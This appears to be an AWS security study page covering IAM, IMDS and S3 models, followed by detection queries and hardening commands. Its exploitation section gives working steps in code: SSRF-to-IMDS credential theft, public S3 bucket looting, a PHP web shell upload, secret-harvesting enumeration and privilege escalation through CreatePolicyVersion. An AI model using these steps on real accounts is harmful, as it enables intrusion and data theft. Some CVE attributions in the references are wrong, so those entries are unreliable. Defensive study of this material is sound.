

# AWS Security

> **AWS (Amazon Web Services) is the world's largest cloud provider — misconfigurations here can expose millions of records, cost thousands of dollars, and hand attackers persistent footholds across an entire organisation.**

---

## 🧠 What Is It?

Think of AWS as a massive virtual data centre you rent over the internet. You spin up servers (EC2), store files (S3), run databases (RDS), deploy serverless functions (Lambda), and tie it all together with networking (VPC). The catch: **every single one of these services has its own permission model, its own attack surface, and its own history of breaches**.

**Analogy:** AWS is like a huge office building where each room is a different service. IAM is the key-card system. If your key card says "all rooms, all access", one lost card = game over. Most AWS breaches aren't zero-days — they're open doors left by misconfigured key cards.

---

## 🏗️ How It Works

### Core Service Map

| Category | Services | Common Attack Surface |
|---|---|---|
| Identity | IAM, STS, Cognito | Over-permissive roles, credential theft |
| Compute | EC2, Lambda, ECS, EKS, Fargate | IMDS abuse, container escape |
| Storage | S3, EBS, EFS, Glacier | Public buckets, unencrypted volumes |
| Database | RDS, DynamoDB, ElastiCache | Public exposure, default creds |
| Network | VPC, Security Groups, NACLs, ALB | 0.0.0.0/0 rules, unencrypted traffic |
| Dev/Ops | CodeBuild, CodePipeline, CloudFormation | Secrets in templates, over-permissive CI |
| Observability | CloudTrail, CloudWatch, Config | Disabled logging, no alerting |
| API | API Gateway, AppSync | Auth bypass, injection |

---

## 📊 Diagram



---

## ⚙️ Technical Details

### IAM Fundamentals

IAM (Identity and Access Management) is the backbone of AWS security. Every action in AWS is an API call, and every API call is authorized through IAM.

#### IAM Entities

```
AWS Account
├── Root Account         (email+password, MFA critical, should NEVER be used operationally)
├── IAM Users            (long-term credentials: access key + secret)
├── IAM Groups           (collections of users sharing policies)
├── IAM Roles            (temporary credentials via STS, assumed by services/users/federated identities)
└── Identity Providers   (SAML, OIDC for federation)
```

#### Policy Types

| Type | Scope | Attached To | Example |
|---|---|---|---|
| Identity-based | What THIS entity can do | User, Group, Role | Allow s3:GetObject |
| Resource-based | Who can access THIS resource | S3 bucket, KMS key, Lambda | Allow external account |
| Permission Boundary | Maximum permissions ceiling | User, Role | Can't exceed these perms |
| SCP (Service Control Policy) | Org-wide guardrails | OU or Account | Deny all regions except us-east-1 |
| Session Policy | Inline limit per session | AssumeRole session | Reduce privileges for task |

#### Policy JSON Structure

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowS3ReadOnly",
      "Effect": "Allow",
      "Action": [
        "s3:GetObject",
        "s3:ListBucket"
      ],
      "Resource": [
        "arn:aws:s3:::my-bucket",
        "arn:aws:s3:::my-bucket/*"
      ],
      "Condition": {
        "StringEquals": {
          "aws:RequestedRegion": "us-east-1"
        }
      }
    }
  ]
}
```

**Dangerous policy example — what attackers love to find:**
```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": "*",
    "Resource": "*"
  }]
}
```

#### Trust Policy (Role Assumption)

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": {
      "Service": "ec2.amazonaws.com"
    },
    "Action": "sts:AssumeRole"
  }]
}
```

### Instance Metadata Service (IMDS)

Every EC2 instance has a special non-routable IP that serves metadata about itself.

**IMDSv1** (Legacy, dangerous):
- No authentication required
- Any process on the instance (or via SSRF) can query it
- Endpoint: `http://169.254.169.254/latest/meta-data/`

**IMDSv2** (Hardened):
- Requires a session-oriented token (PUT request first)
- Token has configurable TTL (max 21600 seconds)
- Mitigates most SSRF attacks (attacker must control PUT)
- Still vulnerable if attacker has code execution on instance

### EC2 Security Architecture

```
EC2 Instance
├── Security Groups     (stateful L4 firewall, allows only)
├── Network ACLs        (stateless L4 firewall, allows + denies)
├── Key Pairs           (SSH access, .pem files)
├── User Data Script    (runs as root at launch — frequent secret leak)
├── Instance Profile    (attached IAM Role → IMDS credentials)
└── EBS Volumes         (encryption at rest, snapshot sharing)
```

### S3 Security Model

```
S3 Bucket Access Decision
├── Bucket Policy (resource-based)
├── ACL (legacy, being deprecated)
├── IAM Policy (identity-based on caller)
├── Block Public Access (account/bucket-level override)
└── Object ACL (per-object legacy)

Access = ALLOW in (IAM policy OR bucket policy) AND NOT DENY anywhere
Public = ACL/bucket policy allows Principal: "*"
```

---

## 💥 Exploitation Step-by-Step

### Attack 1: IMDS v1 Credential Theft (via SSRF)

**Scenario:** Web app on EC2 has SSRF vulnerability. EC2 has an IAM role attached.

**Step 1 — Confirm SSRF:**
```bash
# SSRF probe — does the server fetch URLs you control?
curl "https://vulnerable-app.com/fetch?url=http://your-server.com/test"
```

**Step 2 — Reach IMDS:**
```bash
curl "https://vulnerable-app.com/fetch?url=http://169.254.169.254/latest/meta-data/"
```

**Step 3 — Find the IAM role name:**
```bash
curl "https://vulnerable-app.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
# Response: MyEC2AdminRole
```

**Step 4 — Steal the credentials:**
```bash
curl "https://vulnerable-app.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/MyEC2AdminRole"
```

**Response:**
```json
{
  "Code": "Success",
  "LastUpdated": "2024-01-15T10:30:00Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "ASIA1234567890EXAMPLE",
  "SecretAccessKey": "wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY",
  "Token": "AQoDYXdzEJr//////////wEaoAK...VERY_LONG_SESSION_TOKEN",
  "Expiration": "2024-01-15T16:30:00Z"
}
```

**Step 5 — Use credentials on attacker machine:**
```bash
export AWS_ACCESS_KEY_ID="ASIA1234567890EXAMPLE"
export AWS_SECRET_ACCESS_KEY="wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY"
export AWS_SESSION_TOKEN="AQoDYXdzEJr..."

# Verify identity
aws sts get-caller-identity
```

---

### Attack 2: IMDSv2 (Token Required)

```bash
# Step 1: Get a token (valid for 6 hours)
TOKEN=$(curl -s -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")

# Step 2: Use token for all subsequent requests
curl -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/

# Step 3: Get role name
curl -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Step 4: Get credentials
curl -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME
```

---

### Attack 3: Public S3 Bucket Discovery & Exploitation

**Step 1 — Enumerate with AWS CLI (no credentials):**
```bash
# List bucket contents
aws s3 ls s3://company-backup --no-sign-request

# Sync entire bucket to local
aws s3 sync s3://company-backup . --no-sign-request

# Get specific file
aws s3 cp s3://company-backup/database-dump.sql . --no-sign-request
```

**Step 2 — Automated discovery with s3scanner:**
```bash
pip install s3scanner
s3scanner scan --bucket company-backup
s3scanner scan --bucket-file buckets.txt

# Permutation wordlist approach
cat > buckets.txt << EOF
company-backup
company-backups
companybackup
company-prod-backup
company-staging
company-dev
company-logs
company-data
EOF
s3scanner scan --bucket-file buckets.txt
```

**Step 3 — Check for write access:**
```bash
echo "test" > test.txt
aws s3 cp test.txt s3://target-bucket/test.txt --no-sign-request
# If no error → write access!
```

**Step 4 — Public write exploitation (web shell upload):**
```bash
cat > shell.php << 'EOF'
<?php system($_GET['cmd']); ?>
EOF
aws s3 cp shell.php s3://target-bucket/shell.php --no-sign-request
# Access: https://target-bucket.s3.amazonaws.com/shell.php?cmd=id
```

---

### Attack 4: Full AWS Enumeration After Credential Theft

```bash
# ─── Identity ───────────────────────────────────────────────
aws sts get-caller-identity
# Returns: Account ID, User/Role ARN, UserId

# ─── IAM Enumeration ─────────────────────────────────────────
aws iam get-user
aws iam list-users
aws iam list-groups
aws iam list-roles --max-items 200
aws iam list-policies --scope Local        # custom policies only
aws iam list-attached-user-policies --user-name TARGET_USER
aws iam list-user-policies --user-name TARGET_USER     # inline
aws iam get-user-policy --user-name USER --policy-name POLICY
aws iam list-attached-role-policies --role-name TARGET_ROLE
aws iam list-role-policies --role-name TARGET_ROLE
aws iam get-role-policy --role-name ROLE --policy-name POLICY
aws iam list-groups-for-user --user-name USERNAME
aws iam list-attached-group-policies --group-name GROUPNAME
aws iam list-instance-profiles
aws iam get-account-authorization-details   # GOLD: entire IAM config

# Get managed policy document
POLICY_ARN="arn:aws:iam::123456789012:policy/MyPolicy"
VERSION=$(aws iam get-policy --policy-arn $POLICY_ARN \
  --query 'Policy.DefaultVersionId' --output text)
aws iam get-policy-version --policy-arn $POLICY_ARN --version-id $VERSION

# ─── S3 ──────────────────────────────────────────────────────
aws s3 ls                                  # list all buckets
aws s3 ls s3://BUCKET_NAME --recursive
aws s3api get-bucket-acl --bucket BUCKET
aws s3api get-bucket-policy --bucket BUCKET
aws s3api get-bucket-encryption --bucket BUCKET
aws s3api get-public-access-block --bucket BUCKET
aws s3api list-bucket-versions --bucket BUCKET
aws s3api get-bucket-logging --bucket BUCKET

# ─── EC2 ─────────────────────────────────────────────────────
aws ec2 describe-instances --output table
aws ec2 describe-instances \
  --query "Reservations[*].Instances[*].[InstanceId,PublicIpAddress,PrivateIpAddress,IamInstanceProfile.Arn,State.Name]" \
  --output table
aws ec2 describe-security-groups
aws ec2 describe-security-groups \
  --query "SecurityGroups[?IpPermissions[?IpRanges[?CidrIp=='0.0.0.0/0']]]"
aws ec2 describe-key-pairs
aws ec2 describe-images --owners self
aws ec2 describe-snapshots --owner-ids self
aws ec2 describe-volumes
aws ec2 describe-network-interfaces
aws ec2 describe-vpcs
aws ec2 describe-subnets
aws ec2 describe-route-tables
aws ec2 get-instance-attribute --instance-id i-XXXXX --attribute userData \
  | python3 -c "import sys,json,base64; d=json.load(sys.stdin); print(base64.b64decode(d['UserData']['Value']).decode())"

# ─── Lambda ──────────────────────────────────────────────────
aws lambda list-functions
aws lambda get-function --function-name FUNCNAME
aws lambda get-function-configuration --function-name FUNCNAME   # env vars!
aws lambda list-function-url-configs --function-name FUNCNAME
aws lambda list-event-source-mappings
aws lambda get-policy --function-name FUNCNAME

# ─── RDS ─────────────────────────────────────────────────────
aws rds describe-db-instances
aws rds describe-db-instances \
  --query "DBInstances[?PubliclyAccessible==\`true\`].[DBInstanceIdentifier,Endpoint.Address,MasterUsername]"
aws rds describe-db-snapshots --snapshot-type public
aws rds describe-db-security-groups

# ─── Secrets & Parameters ────────────────────────────────────
aws secretsmanager list-secrets
aws secretsmanager get-secret-value --secret-id SECRET_ARN
aws ssm describe-parameters
aws ssm get-parameters-by-path --path "/" --recursive --with-decryption

# ─── CloudTrail ──────────────────────────────────────────────
aws cloudtrail describe-trails
aws cloudtrail get-trail-status --name TRAIL_NAME
aws cloudtrail list-trails

# ─── Organizations / SCP ─────────────────────────────────────
aws organizations describe-organization
aws organizations list-accounts
aws organizations list-policies --filter SERVICE_CONTROL_POLICY

# ─── ECS / EKS ───────────────────────────────────────────────
aws ecs list-clusters
aws ecs list-tasks --cluster CLUSTER
aws ecs describe-tasks --cluster CLUSTER --tasks TASK_ARN
aws eks list-clusters
aws eks describe-cluster --name CLUSTER_NAME

# ─── CloudFormation ──────────────────────────────────────────
aws cloudformation list-stacks
aws cloudformation get-template --stack-name STACK_NAME     # may contain secrets

# ─── Account-level checks ────────────────────────────────────
aws iam get-account-password-policy
aws iam get-account-summary
aws iam list-virtual-mfa-devices
aws iam generate-credential-report && sleep 5 && \
  aws iam get-credential-report --query 'Content' --output text | base64 -d
```

---

### Attack 5: Privilege Escalation via CreatePolicyVersion

**Scenario:** Compromised IAM user has `iam:CreatePolicyVersion` on a policy attached to a higher-privileged role they can assume.

```bash
# Current user can create policy versions
aws iam create-policy-version \
  --policy-arn arn:aws:iam::123456789012:policy/MyPolicy \
  --policy-document '{
    "Version": "2012-10-17",
    "Statement": [{"Effect":"Allow","Action":"*","Resource":"*"}]
  }' \
  --set-as-default

# Now assume the role that has the policy
aws sts assume-role \
  --role-arn arn:aws:iam::123456789012:role/TargetRole \
  --role-session-name pwned
```

---

## 🛠️ Tools

### Pacu — AWS Exploitation Framework

```bash
# Installation
git clone https://github.com/RhinoSecurityLabs/pacu
cd pacu
pip3 install -r requirements.txt
python3 pacu.py

# Inside Pacu shell:
Pacu> import_keys --access-key AKIA... --secret-key ...

# Key modules:
Pacu> run iam__enum_users_roles_policies_groups
Pacu> run iam__enum_permissions
Pacu> run iam__privesc_scan
Pacu> run s3__enum_buckets
Pacu> run s3__download_bucket --bucket target-bucket
Pacu> run ec2__enum
Pacu> run ec2__download_userdata
Pacu> run lambda__enum
Pacu> run ecs__enum
Pacu> run eks__enum
Pacu> run cloudtrail__download_event_history
Pacu> run secretsmanager__enum
Pacu> run ssm__enum
Pacu> whoami
Pacu> data                # view all enumerated data
```

### ScoutSuite — Multi-Cloud Auditor

```bash
pip install scoutsuite

# AWS audit
scout aws

# With specific profile
scout aws --profile pentest-profile

# With specific services
scout aws --services s3 iam ec2

# Output: HTML report in scoutsuite-report/
```

### Prowler — CIS/AWS Benchmark Compliance

```bash
# Install
pip install prowler

# Run all checks
prowler aws

# Specific check categories
prowler aws -g iam          # IAM group
prowler aws -g s3           # S3 group
prowler aws -g ec2          # EC2 group
prowler aws -g logging      # CloudTrail/logging group

# CIS benchmark
prowler aws --compliance cis_1.4_aws

# GDPR checks
prowler aws --compliance gdpr_aws

# Output formats
prowler aws -M csv,json,html

# Specific checks
prowler aws --checks iam_root_mfa_enabled
prowler aws --checks s3_bucket_public_access
```

### enumerate-iam — Brute Force Permissions

```bash
git clone https://github.com/andresriancho/enumerate-iam
cd enumerate-iam
pip install -r requirements.txt

# Enumerate all permissions for a key pair
python enumerate-iam.py \
  --access-key ASIA1234567890EXAMPLE \
  --secret-key wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY \
  --session-token AQoDYXdz...

# With a specific region
python enumerate-iam.py \
  --access-key AKID... \
  --secret-key SECRET... \
  --region eu-west-1
```

### CloudMapper — Visualization

```bash
pip install cloudmapper

# Gather data
python cloudmapper.py gather --account my-account

# Build network graph
python cloudmapper.py prepare --account my-account

# Serve web UI
python cloudmapper.py webserver

# Find public resources
python cloudmapper.py public --account my-account

# Check for unused resources
python cloudmapper.py stats --account my-account
```

### CloudFox — Fast Enumeration for Pentesters

```bash
# Install
go install github.com/BishopFox/cloudfox@latest

# Run all AWS checks
cloudfox aws all-checks --profile pentest

# Specific checks
cloudfox aws iam-simulator --profile pentest
cloudfox aws role-trusts --profile pentest
cloudfox aws instances --profile pentest
cloudfox aws lambda --profile pentest
cloudfox aws secrets --profile pentest
cloudfox aws endpoints --profile pentest
cloudfox aws permissions --profile pentest
```

---

## 🔍 Detection

### CloudTrail Key Events to Monitor

| Event | Indicates |
|---|---|
| `ConsoleLogin` from new IP/geo | Account compromise |
| `GetCallerIdentity` | Reconnaissance |
| `ListBuckets`, `ListUsers`, `ListRoles` | Enumeration |
| `CreateAccessKey` for other user | Credential creation |
| `AttachUserPolicy` with `AdministratorAccess` | Privilege escalation |
| `CreatePolicyVersion` | Policy manipulation |
| `AssumeRole` across accounts | Lateral movement |
| `PutBucketPolicy` removing blocks | S3 exposure |
| `DeleteTrail` / `StopLogging` | Anti-forensics |
| `RunInstances` with unusual AMI | Backdoor creation |

### CloudTrail Log Query (Athena)

```sql
-- Find all AssumeRole events
SELECT eventtime, useridentity.arn, requestparameters
FROM cloudtrail_logs
WHERE eventname = 'AssumeRole'
  AND eventtime > '2024-01-01'
ORDER BY eventtime DESC;

-- Detect enumeration (many list calls)
SELECT useridentity.arn, COUNT(*) as call_count
FROM cloudtrail_logs
WHERE eventname LIKE 'List%'
  AND eventtime > date_add('hour', -1, now())
GROUP BY useridentity.arn
HAVING COUNT(*) > 50;

-- Find CreateAccessKey calls
SELECT eventtime, useridentity.arn, requestparameters.userName
FROM cloudtrail_logs
WHERE eventname = 'CreateAccessKey';
```

### AWS GuardDuty Finding Types

- `UnauthorizedAccess:IAMUser/ConsoleLoginSuccess.B` — Login from tor
- `Discovery:S3/MaliciousIPCaller` — Recon from known bad IP
- `Exfiltration:S3/ObjectRead.Unusual` — Unusual S3 reads
- `CredentialAccess:EC2/MetadataDNSRebind` — DNS rebinding to IMDS
- `Persistence:IAMUser/NetworkPermissions` — New security group rule

---

## 🛡️ Mitigation

### IAM Hardening

```bash
# Enforce MFA for all IAM users
# Apply this SCP to the entire org:
cat > require-mfa-scp.json << 'EOF'
{
  "Version": "2012-10-17",
  "Statement": [{
    "Sid": "DenyWithoutMFA",
    "Effect": "Deny",
    "NotAction": [
      "iam:CreateVirtualMFADevice",
      "iam:EnableMFADevice",
      "iam:GetUser",
      "iam:ListMFADevices",
      "iam:ListVirtualMFADevices",
      "iam:ResyncMFADevice",
      "sts:GetSessionToken"
    ],
    "Resource": "*",
    "Condition": {
      "BoolIfExists": {"aws:MultiFactorAuthPresent": "false"}
    }
  }]
}
EOF

# Enforce IMDSv2 on all new EC2 instances (AWS Config rule)
aws ec2 modify-instance-metadata-options \
  --instance-id i-XXXXXXXX \
  --http-tokens required \
  --http-endpoint enabled

# Block public S3 access at account level
aws s3control put-public-access-block \
  --account-id 123456789012 \
  --public-access-block-configuration \
    "BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true"

# Enable CloudTrail in all regions
aws cloudtrail create-trail \
  --name org-trail \
  --s3-bucket-name my-cloudtrail-bucket \
  --is-multi-region-trail \
  --enable-log-file-validation \
  --include-global-service-events

aws cloudtrail start-logging --name org-trail
```

### Security Checklist

| Control | Priority | Command to Verify |
|---|---|---|
| Root MFA enabled | Critical | `aws iam get-account-summary` |
| No root access keys | Critical | `aws iam get-account-summary` |
| CloudTrail all regions | Critical | `aws cloudtrail describe-trails` |
| GuardDuty enabled | High | `aws guardduard list-detectors` |
| Config rules active | High | `aws configservice describe-config-rules` |
| No public S3 buckets | High | `aws s3control get-public-access-block` |
| IMDSv2 required | High | `aws ec2 describe-instances` |
| No 0.0.0.0/0 on 22/3389 | High | `aws ec2 describe-security-groups` |
| Secrets in Secrets Manager | Medium | `aws secretsmanager list-secrets` |
| VPC Flow Logs | Medium | `aws ec2 describe-flow-logs` |

---

## 📚 References

- [AWS Security Hub](https://docs.aws.amazon.com/securityhub/latest/userguide/)
- [MITRE ATT&CK for Cloud](https://attack.mitre.org/matrices/enterprise/cloud/aws/)
- [Rhino Security Labs AWS PrivEsc](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
- [HackTricks AWS Pentesting](https://cloud.hacktricks.xyz/pentesting-cloud/aws-security)
- [CloudGoat (Vulnerable by design)](https://github.com/RhinoSecurityLabs/cloudgoat)
- [flaws.cloud (AWS CTF)](http://flaws.cloud/)
- [flaws2.cloud](http://flaws2.cloud/)
- [AWS Well-Architected Security Pillar](https://docs.aws.amazon.com/wellarchitected/latest/security-pillar/)
- **CVE-2021-33026** — AWS CloudFormation injection via template parameters
- **CVE-2022-25165** — AWS VPN Client privilege escalation (Windows)
- **CVE-2023-0045** — AWS SSM Agent path traversal
- **Capital One breach (2019)** — SSRF → IMDS → S3 data exfiltration (real-world attack)
